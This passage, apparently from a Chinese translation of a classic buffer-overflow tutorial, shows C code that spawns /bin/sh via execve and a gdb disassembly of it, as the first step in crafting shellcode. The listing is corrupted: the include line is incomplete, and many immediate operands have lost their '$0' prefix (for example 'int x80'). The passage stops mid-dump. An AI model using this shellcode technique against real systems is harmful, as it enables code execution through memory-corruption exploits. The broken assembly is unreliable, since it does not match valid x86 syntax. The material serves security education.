 派生出一个shell的C语言代码是这样的:

shellcode.c

```
#include

void main() {
    char *name[2];

    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

为了查明这程序变成汇编后是个什么样子, 我们编译它, 然后祭出调试工具gdb. 记住在编译的时候要使用`-static`标志, 否则系统调用`execve`的真实代码就不会包括在汇编中,取而代之的是对动态C语言库的一个引用, 真正的代码要到程序加载的时候才会联入.

```
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c
[aleph1]$ gdb shellcode
GDB is free software and you are welcome to distribute copies of it
under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 : pushl %ebp
0x8000131 : movl %esp,%ebp
0x8000133 : subl x8,%esp
0x8000136 : movl x80027b8,0xfffffff8(%ebp)
0x800013d : movl x0,0xfffffffc(%ebp)
0x8000144 : pushl x0
0x8000146 : leal 0xfffffff8(%ebp),%eax
0x8000149 : pushl %eax
0x800014a : movl 0xfffffff8(%ebp),%eax
0x800014d : pushl %eax
0x800014e : call 0x80002bc <__execve>
0x8000153 : addl xc,%esp
0x8000156 : movl %ebp,%esp
0x8000158 : popl %ebp
0x8000159 : ret
End of assembler dump.
(gdb) disassemble __execve
Dump of assembler code for function __execve:
0x80002bc <__execve>: pushl %ebp
0x80002bd <__execve+1>: movl %esp,%ebp
0x80002bf <__execve+3>: pushl %ebx
0x80002c0 <__execve+4>: movl xb,%eax
0x80002c5 <__execve+9>: movl 0x8(%ebp),%ebx
0x80002c8 <__execve+12>: movl 0xc(%ebp),%ecx
0x80002cb <__execve+15>: movl 0x10(%ebp),%edx
0x80002ce <__execve+18>: int x80
0x80002d0 <__execve+20>: movl %eax,%edx
0x80002d2 <__execve+22>: testl %edx,%edx
0x80002d4 <__execve+24>: jnl 0x80002e6 <__execve+42>
0x80002d6 <__execve+26>: negl %edx
0x80002d8 <__execve+28>: pushl %edx
0x80002d9 <__execve+29>: call 0x8001a34 <__normal_errno_location>
0x80002de <__execve+34>: popl %edx
0x80002df <__execve+35>: movl %edx,(%eax)
0x80002e1 <__execve+37>: movl xffffffff,%eax
0x80002e6 <__execve+42>: popl %ebx
0x80002e7 <__execve+43>: movl %ebp,%esp
0x80002e9 <__execve+45>: popl %ebp
```